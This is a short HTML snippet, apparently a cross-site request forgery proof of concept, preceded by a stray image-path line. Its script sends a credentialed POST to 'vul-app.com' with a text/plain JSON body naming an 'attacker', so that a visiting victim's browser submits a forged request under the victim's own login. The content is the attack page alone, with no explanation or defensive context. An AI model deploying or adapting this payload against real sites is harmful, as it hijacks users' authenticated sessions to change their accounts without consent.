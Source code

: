 
 <script>
fetch('http://vul-app.com', {method: 'POST', credentials: 'include', headers: {'Content-Type': 'text/plain'}, body: '{"name":"attacker","email":"attacker.com"}'});
</script>
<form action="#">
<input type="button" value="Submit" />
</form>
